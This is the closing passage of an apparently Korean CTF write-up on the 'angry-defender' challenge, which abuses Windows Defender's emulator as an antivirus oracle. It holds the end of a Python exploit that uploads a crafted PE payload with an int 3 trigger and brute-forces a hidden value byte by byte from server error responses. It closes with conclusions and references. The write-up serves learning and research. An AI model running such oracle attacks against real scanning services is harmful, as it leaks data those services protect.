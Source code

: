 ```python
            mov al, byte ptr [ebx]
            cmp al, {what}
            jz b
            int 0x3
            b:
            ''' % (len(c) + 0x10 + index)).format(what=ord(t)))

    a = b + payload + c

    tmpkey = requests.put('http://angry-defender.zajebistyc.tf/cache', data=a).text
    res = requests.get('http://angry-defender.zajebistyc.tf/cache/{tmpkey}'.format(tmpkey=tmpkey))
    if res.status_code == 500:
        print 'wtf[%d]="%s"' % (index, t)


index = 0

import sys

for t in string.printable:
    t = threading.Thread(target=gogo, args=(int(sys.argv[1]), t))
    t.start()

a = raw_input()
```

# 결론

기존에 JavaScript를 통한 AV Oracle은 1번 참고 문헌에 나와있었지만, JavaScript 이외의 방법을 통해 AV Oracle을 하는 방법에 대한 자료는 없다시피 했습니다.

이번 기회에 Windows Defender에서 어떻게 trigger하고, PE Binary를 통해 AV Oracle를 trigger할 수 있는 강력한 방법을 알게 되어서 기분이 좋습니다.

위를 다시 살펴보면 비단 JS나 PE binary가 아니더라도 trigger되는 다양한 부분이 있기 때문에, 이를 공부해서 관련 문제에 대비해보거나 Windows Defender 자체에 대한 이해도를 높이는 것도 좋은 경험일 것으로 생각됩니다. RarVM을 통해서 trigger 하는 방법에 대해서 흥미가 있기 때문에 다음에 취미로 프로젝트를 진행해볼 지도 모르겠습니다.

---

# 참고 문헌

1. ["Let's Make Windows Defender Angry: Antivirus can be an oracle!"](https://speakerdeck.com/icchy/lets-make-windows-defender-angry-antivirus-can-be-an-oracle?slide=17) By icchy from TokyoWesterns
2. ["Windows Offender: Reverse Engineering Windows Defender's Antivirus Emulator"](https://i.blackhat.com/us-18/Thu-August-9/us-18-Bulazel-Windows-Offender-Reverse-Engineering-Windows-Defenders-Antivirus-Emulator.pdf) By Alexei Bulazel
